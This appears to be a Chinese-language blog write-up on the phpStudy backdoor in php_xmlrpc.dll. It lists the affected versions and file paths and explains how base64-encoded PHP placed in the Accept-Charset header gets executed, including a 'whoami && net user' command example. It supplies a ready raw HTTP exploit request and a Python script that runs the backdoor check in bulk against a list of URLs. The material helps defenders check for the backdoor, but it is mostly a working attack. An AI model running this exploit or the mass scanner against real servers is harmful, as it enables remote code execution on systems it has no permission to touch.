 <a name="NUBGS"></a>
# phpstudy后门
一直安装了phpstudy这个玩意，但没想到这个集成工具还有后门漏洞，于是我一探究竟，环境启动<br />![](https://cdn.nlark.com/yuque/0/2021/png/1345801/1620299916305-eef1ff07-6b3e-4574-982e-1f6a6b9e1838.png#align=left&display=inline&height=399&originHeight=399&originWidth=459&status=done&style=none&width=459)<br />查了下资料，漏洞版本和路径主要如下

phpstudy 2016版php-5.4<br />phpstudy 2018版php-5.2.17<br />phpstudy 2018版php-5.4.45

phpStudy2016路径：<br />php\php-5.2.17\ext\php_xmlrpc.dll<br />php\php-5.4.45\ext\php_xmlrpc.dll

phpStudy2018路径：<br />PHPTutorial\php\php-5.2.17\ext\php_xmlrpc.dll<br />PHPTutorial\php\php-5.4.45\ext\php_xmlrpc.dll

php\php-5.2.17\ext\php_xmlrpc.dll 查找@eval如下图所示证明漏洞存在<br />![](https://cdn.nlark.com/yuque/0/2021/png/1345801/1620299916703-b1bc0b79-a2ce-4d05-8f3e-e208f34c3fa5.png#align=left&display=inline&height=615&originHeight=615&originWidth=1181&status=done&style=none&width=1181)

如下图箭头所指的是phpinfo();的base64编码(Accept-Charset:) 这里需要注意的一个坑点在于Accept-Encoding:gzip,deflate中 gzip和deflate前面的空格需要去掉才可以执行命令。<br />![](https://cdn.nlark.com/yuque/0/2021/png/1345801/1620299917281-eade8260-265a-4a4c-af36-c2a8aa73d01b.png#align=left&display=inline&height=630&originHeight=630&originWidth=1228&status=done&style=none&width=1228)

命令执行echo system("whoami && net user"); base64编码<br />![](https://cdn.nlark.com/yuque/0/2021/png/1345801/1620299917882-a4608d6a-5870-4518-801a-3f0a1432d538.png#align=left&display=inline&height=490&originHeight=490&originWidth=1213&status=done&style=none&width=1213)

<a name="hYM63"></a>
## EXP
```python
GET /index.php HTTP/1.1
Host: 192.168.201.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding:gzip,deflate
Accept-Charset:cGhwaW5mbygpOw==
Connection: close
Upgrade-Insecure-Requests: 1
```
<a name="lAwNi"></a>
## 批量脚本
```python
import requests

def getTitle(url):
    #url = input("请输入url：")
    #url = 'http://192.168.201.1/index.php'
    headers = {
            'Connection': 'close',
            'Cache-Control': 'max-age=0',
            'Upgrade-Insecure-Requests': '1',
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87 Safari/537.36',
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
            'Accept-Encoding':'gzip,deflate',
            'Accept-Charset':'ZWNobyAiSGVsbG8gYXVmZW5nIjs=',
            'Accept-Language': 'zh-CN,zh;q=0.8',
            }
    #req = requests.get(url=url,headers=headers)
    #r = req.text
    #print(r)
    try:
        req = requests.get(url=url,headers=headers)
        if req.status_code == 200:
            if 'aufeng' in req.text:
                print(url+"存在phpstudy后门++++++++++")
            else:
                print("没有phpstudy后门")
    except:
        print("请求出了问题")

if __name__ == '__main__':
    banner='''
    

               __                 
              / _|                
   __ _ _   _| |_ ___ _ __   __ _ 
  / _` | | | |  _/ _ \ '_ \ / _` |
 | (_| | |_| | ||  __/ | | | (_| |    by aufeng 
  \__,_|\__,_|_| \___|_| |_|\__, |    phpstudy后门批量检测小脚本
                             __/ |    Tips ：python studypiliang.py 确定键之后输入txt即可
                            |___/ 


    '''
    print(banner)
    #getTitle()
    filename = input("放入txt文本: ")
    if filename is not None:
        print("开始批量验证:")
        with open(filename, 'r',encoding='utf-8') as f:
            line = f.readlines()
            for i in line:
                a = i.strip() 
                getTitle(a)
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1620300428677-20345e87-1e71-4377-b057-74d4ad02ba65.png#align=left&display=inline&height=399&originHeight=532&originWidth=946&size=121032&status=done&style=none&width=710)
